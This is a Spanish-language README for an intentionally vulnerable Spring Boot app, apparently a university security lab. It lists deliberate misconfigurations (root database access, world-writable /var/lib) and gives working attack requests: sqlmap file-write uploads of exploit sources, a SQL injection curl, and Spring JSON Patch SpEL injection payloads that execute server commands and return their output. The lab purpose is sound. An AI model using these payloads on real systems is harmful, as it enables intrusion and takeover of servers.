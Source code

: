 # AppVulnerable

## Errores de Configuración en el Server:

1. La aplicación utiliza el usuario de root para acceder a la base de datos.
2. Se encuentra configurado para que todos los usuarios tengan permisos para las carpetas
   chmod -R a+rwX /var/lib/

## Pasos previos

Se debe tener corriendo una base de datos mysql y ejecutar los scripts que estan dentro de la carpeta script para crear la tabla y el usuario que la app usa

## Requests que explotan vulnerabilidades

sqlmap.py -u http://hostname:8080/users/123?id=1 --file-write=C:/tp-seguridad/hello.c --file-dest=/var/lib/mysql-files/hello.c

sqlmap.py -u http://hostname:8080/users/123?id=1 --file-write=C:/tp-seguridad/compile.sh --file-dest=/var/lib/mysql-files/compile.sh

sqlmap.py -u http://hostname:8080/users/123?id=1 --file-write=C:/tp-seguridad/suidhelper.c --file-dest=/var/lib/mysql-files/suidhelper.c

sqlmap.py -u http://hostname:8080/users/123?id=1 --file-write=C:/tp-seguridad/doubleput.c --file-dest=/var/lib/mysql-files/doubleput.c

- curl -X GET localhost:8080/users?id=6%20OR%201=1
	- id es un campo vulnerable a sql injection

- curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(java.lang.Runtime).getRuntime().exec(\"[comando]\").x", "value" : "pwned" }]' "http://hostname:port/entity/1/"
	- Ejecuta comandos del lado del servidor
	- Pervio a esto se debe crear la /entity/1/ con -> curl -i -X POST -H "Content-Type: application/json" -d '{ "name" : "Test", "attribute" : "foo"}' http://hostname:port/entity

- curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(org.springframework.util.StreamUtils).copy(T(java.lang.Runtime).getRuntime().exec(\"ipconfig\").getInputStream(), T(org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getResponse().getOutputStream()).x", "value" : "pwned" }]' "http://hostname:port/entity/1/"
	- Permite ver el output de la ejecucion del comando


## Frontend

Actualmente se levanta lo que este en /src/main/resources/*
Ir al directorio donde esta la aplicacion y correr

- mvn clean install
	- Agrega las dependencias para la carga de template thymeleaf y dependencias para el frontend, tambien crea el directorio
	  /src/front/dist y copia los archivos generados a /src/main/resources/static

- mvn spring-boot:run
	- Levanta la aplicacion en el puerto 8080

